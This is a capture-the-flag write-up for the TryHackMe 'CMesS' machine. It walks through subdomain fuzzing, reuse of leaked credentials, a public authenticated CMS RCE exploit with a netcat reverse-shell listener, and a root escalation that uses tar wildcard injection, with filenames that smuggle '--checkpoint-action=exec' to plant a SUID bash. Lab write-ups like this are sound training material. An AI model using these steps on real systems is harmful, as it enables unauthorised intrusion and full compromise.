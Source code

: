 ```yaml
---
title: /writeups/CMesS
layout: post
permalink: /writeups/CMesS
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/r/room/cmess">"CMesS"</a>

The only interesting thing in the nmap scan is the port 80 so that'll be the place to start.

Unfortunately there's nothing interesting on the default page, and dirbusting gives us nothing either besides the /admin login portal.
However, after running wfuzz:
`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107` (the `--hl 107` filters the results for us to exclude the 404s)
We can find interesting dev.cmess.thm.

<img src="/images/DevCmess.png" alt="dev.cmess.thm" />

And there's obviously an email and a password that we can use to login on /admin found earlier

After we log in, the admin page greets us with the version of the CMS

<img src="/images/VersionCmess.png" alt="cmess version" />

Searchsploit tells us that there's an authenticated RCE for that exact version.
You can get the exploit [here](https://www.exploit-db.com/exploits/51569)

<img src="/images/ExploitCmess.png" alt="cmess exploit" />

The exploit obviously works and gives us a www-data shell (Remember to start the listener before running the exploit! `nc -lvnp <port>')

#PrivEsc

I think that the PrivEsc is actually the hardest part of this box. 
Running both Linpeas and LinEnum gives us 2 interesting findings.

The first one is the crontab

<img src="/images/LinPeasCmess.png" alt="cmess Crontab finding" />

We can clearly see that it's vulnerable to wildcard injection but we are not able to exploit it yet because we do not have access to the `/home/andre/backup`

For some reason the LinPeas was extremely slow on this machine so I decided to run LinEnum and it gave me this:

<img src="/images/LinEnumCmess.png" alt="LinEnum finding" />

It turns out that this file contains the andre's password

<img src="/images/AndreCmess.png" alt="Andre passwd" />

Now, we've got every piece of information needed to root this machine.

First, we ssh as andre:
`ssh andre@<ip>`
and provide the password found in the backup file.

Thanks to that, we have access to `/home/andre/backup`, so let's cd there.
`cd /home/andre/backup`

Now we can proceed with the wildcard injection...
`nano shell.sh`
In the nano  we write:
```
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
Now, we have to create some files to make the cron execute our shell.sh
```
echo "" > "--checkpoint-action=exec=sh shell.sh"  
echo "" > --checkpoint=1
```
And now we wait.

After a minute we should see a SUID copy of bash in the /tmp directory.
To get the root we simply run it:
<img src="/images/RootCmess.png" alt="Root CMess" />

Thank you for reading
